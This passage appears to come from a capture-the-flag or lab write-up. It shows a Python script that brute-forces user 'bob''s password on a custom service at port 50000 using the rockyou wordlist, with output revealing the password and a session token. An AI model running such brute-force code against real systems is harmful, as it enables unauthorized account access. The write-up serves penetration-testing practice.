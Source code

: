 ```python
	s.send(buf)
	r = s.recv(25600)
	data = r.split(b"\x00")

	s.close()
	if int(data[0]) == 1:
		return data[1].decode()
	else:
		return None

#TODO program some of the example functions that we can show to the client
```

Port 50000 is running an application that uses this script. We know that the user is `bob`, but the password has been removed. As such, we can brute force his password using an adaptation of the original script:

```python
#!/usr/bin/python3

import socket
import base64
import sys
HOST="192.168.160.112"
PORT=50000

username = b"bob"
f = open('/usr/share/wordlists/rockyou.txt','r')
for passw in f:
	attempt = passw.strip('\n').encode()
	print(f"Trying {attempt}...")
	s = socket.socket()
	s.connect((HOST,PORT))
	buf = b""
	buf += b"1"
	buf += b"\x00"
	buf += username
	buf += b"\x00"
	buf += attempt
	buf += b"\x00"
	s.send(buf)
	r = s.recv(4096)
	data = r.split(b"\x00")
	s.close()
	print(data)
```

Eventually, it would find the correct password of `cookie1`.&#x20;

```
Trying b'cookie1'...
[b'1', b'599f7412-54e0-4e7b-9ec3-722d742b9650', b'']
```
